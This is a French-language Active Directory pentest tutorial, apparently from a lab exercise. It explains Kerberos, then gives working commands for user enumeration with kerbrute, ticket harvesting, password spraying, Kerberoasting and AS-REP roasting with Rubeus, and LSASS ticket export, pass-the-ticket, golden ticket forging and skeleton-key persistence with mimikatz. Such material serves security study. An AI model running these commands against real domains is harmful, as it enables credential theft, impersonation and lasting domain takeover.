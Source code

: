 ## 1) Le fonctionnement de Kerberos

Tout d'abord, Kerberos est le service d'authentification par défaut pour les domaines Microsoft Windows. Il a pour objectif d'être plus sécurisé que NTLM en utilisant le système ticket d'autorisation d'une 3e entité. De plus, l'algorithme de chiffrement y est renforcé.

Voici quelques termes à connaitre :

- **Ticket Granting Ticket (TGT)** : C'est un ticket d'authentification utilisé pour les requêtes des tickets de service provenant du TGS pour une ressource spécifique du domaine.
- **Ticket Granting Service (TGS)** : Ce ticket prend le TGT et le ticket dans une machine du domaine.
- **Key Distribution Center (KDC)** : Le KDC est un service qui accorde les TGT et les TGS qui proviennent de l'AS et du TGS.
- **Authentication Service (AS)** : Le service d'authentification détient les TGT qui seront utilisés par le TGS dans le domaine pour demander l'accès à d'autres machines et au TGS.
- **Service Principal Name (SPN)** : C'est un identifiant donné à un service pour associer ce service avec un compte d'un service de domaine.
- **KDC Long Term Secret Key (KDC LT Key)** : Cette clé est basé sur le compte service KRBTGT. Elle est utilisée pour chiffré le TGT et signé le PAC.
- **Client Long Term Secret Key (Client LT Key)** : Cette clé est basé sur le compte de l'ordinateur ou du service. Elle est utilisée pour vérifier le timestamp chiffré et chiffré la clé de session.
- **Service Long Term Secret Key (Service LT Key)** : Cette clé est basé sur le compte service. Elle est utilisée pour chiffré la portion Service du ticket de service et signé le PAC.
- **Privilege Attribute Certificate (PAC)** : Il garde toutes les informations pertinentes des utilisateurs, il est envoyé en même tempsque le TGT au KDC pour être signé par la KDC LT Key et soit le Client LT Key soit le Service LT Key.
- **Session Key** : Cette clé est utilisée pour accéder aux services.

Pour mieux comprendre l'ordre pour accéder à une ressource via Kerberos :

![Kerberos](https://i.imgur.com/VRr2B6w.png)

1. (AS-REQ) Le client envoie une requête au KDC pour avoir un TGT ou un ticket d'authentification
2. (AS-REP) Le KDC vérifie que le client existe et renvoie le TGT chiffré avec la clé de session
3. (TGS-REQ) Le client envoie le TGT chiffré au TGS avec le SPN du service que le client veut accéder
4. (TGS-RES) Le KDC vérifie le TGT de l'utilisateur et que celui-ci a la permission d'accéder au service, ensuite il envoie une clé de session valide pour le service
5. (AP-REQ) Le client envoie une requête au service et sa clé de session pour prouver son accès
6. (AP-REP) Le service lui autorise l'accès

## 2) Enumérer des utilisateurs valides au sein d'un AD

Pour ce faire, on va utiliser l'outil **[kerbrute](https://github.com/ropnop/kerbrute)** qui permet de faire cette action en abusant de la pre-authentification de Kerberos.

La commande a utilisé est la suivante :

```bash
kerbrute userenum --dc <Nom du domaine Controller> -d <Nom du domaine> <wordlist>
```

## 3) Récolter et brute-force/password-spraying les tickets

On utilsera pour ce faire, l'outil **[Rubeus](https://github.com/GhostPack/Rubeus)**. (le programme doit être sur la machine victime)

On peut récolter les différents tickets avec la commande suivante :

```powershell
Rubeus.exe harvest /interval:30
```

On a défini le mode de Rubeus sur harvest pour récolter les tickets à une intervalle de 30s.

Pour tester un mot de passe sur plusieurs machines à la fois, on va utilisé ceci :

```powershell
Rubeus.exe brute /password:Password1 /noticket
```

## 4) Kerberoasting

Cette attaque permet à un utilisateur d'envoyer une requête pour avoir un ticket de service pour tous les services avec un SPN enregistré et ensuite utilisé ce ticket pour cracker le mot de passe du service. Donc si le service a un SPN enregistré, il peut être Kerberoastable. Le succès de l'attaque dépend du niveau de sécurité du mot de passe.

Pour énumérer les compte Kerberoastable, on utilisera l'outil BloodHound ou Rubeus.

Pour ce faire avec Rubeus :

```powershell
Rubeus.exe kerberoast
```

Après avoir cracker le mot de passe du service, il y a plusieurs façon d'exfiltrer les données dépendant de si le service est dans un domain admin ou pas. 

Pour empêcher cette attaque, il faut :

- Avoir des mots de passes fort
- Ne pas créer de compte de service dans un domain admin

## 5) AS-REP Roasting

Cette attaque est très similaire à la précédente, elle va permettre d'avoir accès aux hash des comptes utilisateurs ayant la pre-authentification de Kerberos désactiver.

Pour ce faire avec Rubeus :

```powershell
Rubeus.exe asreproast
```

On crackera ensuite les hashs avec hashcat.

## 6) Pass the ticket

Cette attaque fonctionne en accèdant au TGT grâce à la mémoire LSASS (Local Security Authority Subsystem) de la machine. Le LSASS est un processus mémoire qui stocke les données sur un AD et peut stocker les tickets Kerberos avec ces données.

On utilisera l'outil **[mimikatz](https://github.com/ParrotSec/mimikatz)** pour ce faire :

```powershell
mimikatz.exe
```

```powershell
privilege::debug
```

Permet de savoir si l'on dispose des droits administrateurs pour le bon fonctionnement du script.

```powershell
sekurlsa::tickets /export
```

Permet d'exporter les tickets dans le répertoire courant.

```powershell
kerberos::ptt <ticket>
```

Cette commande permettra d'utiliser le ticket spécifier et donc de se faire passer pour la personne.

## 7) Golden/Silver Tickets

Tout d'abord, vous devez savoir la différence entre KRBTGT et TGT. Le KRBTGT est un compte de service pour le KDC, si l'on arrive a devenir le KRBTGT et que l'on crée un golden ticket, on se donne la possibilité de créer un ticket pour n'importe quelle service.

Comme l'étape précédente, on utilise mimikatz :

```powershell
lsadump::lsa /inject /name:krbtgt
```

Ensuite pour crée notre ticket et devenir Administrator :

```powershell
Kerberos::golden /user:Administrator /domain:controller.local /sid:<sid> /krbtgt:<hash> /id:<id>
```

Ensuite pour accéder à une machine avec ce ticket :

```powershell
misc::cmd
```

Cela créera un nouvel invité de commande avec des priviléges d'administrateurs.

## 8) Skeleton Key

Pour maintenir l'accès à notre machine, on utilisera l'attaque suivante. Cette Skeleton Key abuse sur la façon que l'AS-REQ valide les timestamp chiffrés. Cette clé n'est valable qu'avec l'algorithme de chiffrement RC4.

Il suffit juste de faire la commande suivante dans mimikatz :

```powershell
misc::skeleton
```

ensuite voici divers exemples :

```powershell
net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz
```

```powershell
dir \\Desktop-1\c$ /user:Machine1 mimikatz
```

mimikatz étant le mot de passe par défaut de la clé.

